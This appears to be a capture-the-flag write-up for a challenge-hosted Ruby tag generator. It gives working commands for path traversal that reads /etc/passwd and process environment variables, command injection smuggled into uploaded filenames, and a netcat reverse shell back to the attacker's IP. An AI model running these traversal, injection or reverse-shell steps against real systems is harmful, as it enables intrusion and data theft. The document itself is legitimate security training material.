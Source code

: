 # Objective 8: Broken Tag Generator
Location: Wrapping Room

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

## Approach 1: Solution using Path Traversal

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```
Using this the value of the environment variable can be obtained like this:
```
curl https://tag-generator.kringlecastle.com/image?id=../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
So the `GREETZ` variable contains **JackFrostWasHere**

## Approach 2: Solution using RCE

The [Ruby application code](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-8/app.rb) can be downloaded through the above path traversal (the full path of `app.rb` is displayed in the application's error messages):
```
curl https://tag-generator.kringlecastle.com/image?id=../../app/lib/app.rb --output app.rb
```
The application code allows to place uploaded files in a chosen place on the remote system using the ZIP upload function.
Furthermore the application starts the `convert` tool from  ImageMagick which makes it possible to inject shell commands:
```
jsw@io:*$ touch \'\;env\>joergen\;\'.jpg
jsw@io:*$ zip joergen.zip \'\;env\>joergen\;\'.jpg 
  adding: ';env>joergen;'.jpg (stored 0%)
jsw@io:*$ curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
["7ebc17be-a3ea-48f5-95ea-730e1b006520.jpg"]
jsw@io:*$ curl https://tag-generator.kringlecastle.com/image?id=../tmp/joergen
RUBY_MAJOR=2.7
GREETZ=JackFrostWasHere
[..]
```

## Approach 3: Full Interactive Remote Shell
**Option 1:**
Create a ZIP file including an empty jpg file:
```
touch joergen.jpg
zip joergen.zip joergen.jpg
```
Modify the contained filename to one with the shell command for the reverse shell (filename needs to end with an image extension as the application checks for that):
```
printf "@ joergen.jpg\n@=';nc <your IP address> 4444 -e \`which bash\`;'.jpg\n" | zipnote -w joergen.zip
```

**Option 2:**
Create the tailored filename directly:
```
touch \'\;nc\ <your IP address>\ 4444\ -e\ \`which\ bash\`\;\'.jpg
zip joergen.zip \'\;nc\ <your IP address>\ 4444\ -e\ \`which\ bash\`\;\'.jpg
```

**Common part:**
Start the reverse shell listener on your local device:
```
nc -lnvp 4444
```
Get it started:
```
curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
```
Now you have in the reverse shell listener an interactive shell as user `app`.
The user `app` has write access to `/tmp` and `/home/app`.
In addition the user has write access to `/usr/local/bundle`, where the web server is located.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTUyOTE1ODMzNywtNjAzNTQ5MTU0LC0xOT
I2ODE3OTI0LDIxMjU1OTkwMzYsMTQ0MDA5NzA4MywtOTM1ODEz
Mjg4LC02MTM0NDk2NTYsLTEwNTIxNjM2MTcsLTE3NjM1NDEzNT
UsMTYwNzM0ODUxNCwtODIzMDUwODYxLDEyOTM3MjA0MzksMTM5
NTc5NDgyNCwtMTU5OTI1NDQxNSwtNjE5Mjk3NDExLC01NzY2MT
AwNzUsMjEwNzUyOTg0Niw5MjIxNDQzNSwtMzk4NDkxNDYxLDEx
NTE1NTY4OTZdfQ==
-->